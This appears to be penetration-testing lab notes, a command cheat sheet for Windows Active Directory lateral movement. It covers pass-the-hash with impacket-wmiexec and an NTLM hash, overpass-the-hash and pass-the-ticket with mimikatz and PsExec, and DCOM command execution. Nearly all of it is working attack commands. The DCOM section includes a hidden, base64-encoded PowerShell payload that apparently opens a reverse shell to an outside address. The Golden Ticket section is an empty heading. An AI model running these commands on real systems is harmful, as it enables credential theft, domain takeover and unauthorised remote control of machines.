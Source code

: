 `kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73`

<a name="overpass-the-hash"></a>
## Overpass the Hash

	mimikatz #privilege::debug
	mimikatz #sekurlsa::logonpasswords
	mimikatz #sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell

`PS C:\Windows\system32> klist`
`C:\> net use \\files04`
`C:\> klist`
`PS C:\> .\PsExec.exe \\files04 cmd`

<a name="pass-the-ticket"></a>
## Pass the Ticket
`PS C:\Windows\system32> whoami`
	
	corp\jen
`PS C:\Windows\system32> ls \\web04\backup`
	
	ls : Access to the path '\\web04\backup' is denied.

	mimikatz #privilege::debug
	mimikatz #sekurlsa::tickets /export

`PS C:\Tools> dir *.kirbi`

	mimikatz #kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
	mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
	
`PS C:\Tools> klist`

`PS C:\Tools> ls \\web04\backup`

<a name="dcom"></a>
## DCOM
>this method allows the execution of any shell command as long as the authenticated user is authorize
>
	$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
	$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
	$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
	AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")

<a name="golden-ticket"></a>
## Golden Ticket
